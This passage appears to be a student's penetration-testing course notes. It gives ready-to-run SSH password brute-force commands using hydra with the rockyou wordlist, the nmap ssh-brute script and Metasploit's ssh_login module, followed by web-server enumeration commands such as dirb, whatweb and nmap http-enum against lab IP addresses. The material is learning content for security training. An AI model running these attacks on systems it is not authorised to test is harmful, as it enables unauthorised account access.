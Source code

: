 ### SSH Dictionary Attack 

Can use <mark style="background: #D2B3FFA6;">hydra</mark> to attack SSH users by specifying `ssh`
+ Example: `hydra -l student -P /usr/share/wordlists/rockyou.txt 192.198.157.3 ssh`
	+ In the above account, we are attacking user=student

Can also <mark style="background: #FFB86CA6;">nmap BruteForce</mark> instead of hydra
+ using `--script ssh-brute`
	+ Example: `nmap IP --script ssh-brute --script-args userdb=/root/users -p 22`

Or can use <mark style="background: #FF5582A6;">mfsconsole</mark> instead of hydra
+ using `use auxiliary/scanner/ssh/ssh_login`
	+ `set rhosts 192.198.157.3`
	+ `set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt`
	+ `set STOP_ON_SUCCESS true`
	+ `set verbose true`

## HTTP Lesson 

### HTTP IIS (Windows) 

<mark style="background: #BBFABBA6;">HTTP</mark> is for hosting websites, a big part of the internet 

<mark style="background: #D2B3FFA6;">whatweb</mark>
+ A good tool for getting more information about a server
+ Will test for some vulnerabilities 
+ Example: `whatweb IP`

 <mark style="background: #D2B3FFA6;">HTTPie</mark> (Linux command: http)
+ more server type info and header information 
+ Microsoft IIS will use the .aspx filetype
+ Example `http IP`

<mark style="background: #D2B3FFA6;">Dirb</mark>
+ Will enumerate lots of information 
+ Looks for directories 
+ Example: `dirb http://IP/ CAN_SPECIFY_WORLIST`

<mark style="background: #D2B3FFA6;">browsh</mark>
+ Will render the website in the command line 
+ Example: `browsh --startup-url http://IP/`

### HTTP IIS (Windows) Nmap Scripts ###

<mark style="background: #FFB86CA6;">http-enum</mark>
+ nmap script that will also return a select list of common directory enumeration 
+ Example: `nmap 10.4.16.92 -p 80 --script http-enum`

<mark style="background: #FFB86CA6;">http-header</mark>
+ will return more information about the website from its header, including vulnerabilities and protections 
+ Example: `nmap 10.4.16.92 -p 80 --script http-header`
